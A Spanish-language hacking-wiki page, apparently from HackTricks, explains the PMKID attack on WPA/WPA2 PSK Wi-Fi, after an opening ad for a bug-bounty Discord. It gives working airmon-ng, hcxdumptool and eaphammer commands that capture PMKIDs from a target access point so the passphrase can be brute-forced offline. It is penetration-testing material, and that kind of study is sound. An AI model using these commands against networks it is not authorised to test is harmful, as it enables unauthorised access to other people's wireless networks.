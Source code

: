 ![](<../../.gitbook/assets/image (432).png>)

***

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

¡Únete al servidor de [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) para comunicarte con hackers experimentados y cazadores de recompensas por errores!

**Perspectivas de Hacking**\
Participa en contenido que profundiza en la emoción y los desafíos del hacking

**Noticias de Hackeo en Tiempo Real**\
Mantente al día con el mundo del hacking de ritmo rápido a través de noticias e información en tiempo real

**Últimos Anuncios**\
Mantente informado sobre las nuevas recompensas por errores que se lanzan y actualizaciones cruciales de la plataforma

¡Únete a nosotros en [**Discord**](https://discord.com/invite/N3FrSbmwdy) y comienza a colaborar con los mejores hackers hoy!

***

## WPA/WPA2 PSK

### PMKID

En 2018, **hashcat** [reveló](https://hashcat.net/forum/thread-7717.html) un nuevo método de ataque, único porque solo necesita **un solo paquete** y no requiere que ningún cliente esté conectado al AP objetivo, solo interacción entre el atacante y el AP.

Muchos enrutadores modernos añaden un **campo opcional** al **primer marco EAPOL** durante la asociación, conocido como `Robust Security Network`. Esto incluye el `PMKID`.

Como explica la publicación original, el **PMKID** se crea utilizando datos conocidos:

```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

Dado que el "Nombre PMK" es constante, conocemos el BSSID del AP y de la estación, y el `PMK` es idéntico al de un apretón de manos completo de 4 vías, **hashcat** puede usar esta información para descifrar el PSK y recuperar la frase de paso.

Para **reunir** esta información y **fuerza bruta** localmente la contraseña, puedes hacer:

```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
